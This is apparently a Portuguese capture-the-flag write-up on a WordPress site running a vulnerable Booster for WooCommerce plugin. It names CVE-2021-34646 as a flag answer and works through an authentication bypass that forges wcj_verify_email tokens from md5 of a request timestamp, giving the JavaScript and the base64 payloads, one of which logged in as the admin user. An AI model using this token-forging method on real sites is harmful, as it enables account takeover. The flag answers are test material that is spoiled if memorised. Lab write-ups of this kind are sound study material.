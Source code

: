 # Desafio 1

- 5.8.1 wordpress
- WooCommerce 5.7.1
- Booster for WooCommerce 5.4.3 - ESTE AQUI

Possiveis :
- CVE-2021-39203
- CVE-2022-21664
- CVE-2022-21661
- CVE-2021-34646 - melhor

flag{CVE-2021-34646} - CORRETO 

# Desafio 2

admin - user 1

Descrição sucinta da vulnerablidade:
>	O processo de validação do e-mail tem uma fraquesa quanto à geração do token para dar reset à password. Esse token é previsível.
Conseguimos assim fazer-nos passar por outro utilizador. O link abaixo explica o processo a fazer para obter esse token.

exploit: 
https://www.wordfence.com/blog/2021/08/critical-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/


TENTATIVAS DE CRIAR ATAQUE:::

1664838545 -- Tempo de envio do HTTP Request
var o = {id: 1, code: md5(1664838545)}; - 
var e = btoa(JSON.stringify(o))
wcj_verify_email="eyJpZCI6MSwiY29kZSI6IjI2ZjkxYWM1YjM5M2YyNmU3ZTM5Y2ZlODIwY2FhZjE3In0=" 
wcj_verify_email="eyJpZCI6MSwiY29kZSI6IjEzYzIwMWRmODMwYjk4ZjViNzdkNDAyMTk3MjI0N2E2In0="

Diferentes formas de meter no JSON deram problema, com string ? sem string nos parametos ?

eyJpZCI6MSwiY29kZSI6IjkxYjMxMDg4YmMyNzA3YTBlNzZmYTE2NDU5YzMwNjRhIn0= 
eyJpZCI6IjEiLCJjb2RlIjoiOTFiMzEwODhiYzI3MDdhMGU3NmZhMTY0NTljMzA2NGEifQ==

A PRIMEIRA DE CIMA RESULTOU
